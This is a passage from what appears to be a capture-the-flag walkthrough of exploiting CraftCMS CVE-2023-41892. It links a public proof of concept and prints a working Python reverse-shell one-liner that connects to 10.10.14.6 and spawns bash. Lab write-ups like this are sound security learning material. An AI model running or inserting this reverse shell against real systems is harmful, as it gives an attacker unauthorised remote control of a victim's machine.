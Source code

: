 From enviromnent variables, the database connection parameters are identified.

![](img/surveillance5.png)

Such credentials do not allow access in SSH. The previous POC also does not allow for a shell. A new POC is identified: [https://github.com/Faelian/CraftCMS_CVE-2023-41892](https://github.com/Faelian/CraftCMS_CVE-2023-41892). It works.

![](img/surveillance6.png)

It's time to get a reverse shell.

```shell
[...]
> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
